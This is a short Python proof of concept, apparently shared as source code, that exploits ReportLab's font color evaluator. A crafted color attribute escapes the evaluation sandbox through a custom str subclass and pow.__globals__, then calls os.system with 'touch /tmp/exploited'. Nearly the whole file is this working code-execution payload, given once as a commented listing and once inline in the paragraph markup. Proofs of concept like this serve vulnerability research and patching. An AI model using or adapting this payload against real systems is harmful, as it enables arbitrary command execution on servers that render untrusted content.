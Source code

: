 ```python
from reportlab.platypus import SimpleDocTemplate, Paragraph
from io import BytesIO
stream_file = BytesIO()
content = []

def add_paragraph(text, content):
    """ Add paragraph to document content"""
    content.append(Paragraph(text))

def get_document_template(stream_file: BytesIO):
    """ Get SimpleDocTemplate """
    return SimpleDocTemplate(stream_file)

def build_document(document, content, **props):
    """ Build pdf document based on elements added in `content`"""
    document.build(content, **props)



doc = get_document_template(stream_file)
#
# THE INJECTED PYTHON CODE THAT IS PASSED TO THE COLOR EVALUATOR
#[
#    [
#        getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited')
#        for Word in [
#            orgTypeFun(
#                'Word',
#                (str,),
#                {
#                    'mutated': 1,
#                    'startswith': lambda self, x: False,
#                    '__eq__': lambda self, x: self.mutate()
#                    and self.mutated < 0
#                    and str(self) == x,
#                    'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)},
#                    '__hash__': lambda self: hash(str(self)),
#                },
#            )
#        ]
#    ]
#    for orgTypeFun in [type(type(1))]
#]

add_paragraph("""
            <para>
              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
                exploit
                </font>
            </para>""", content)
build_document(doc, content)
```
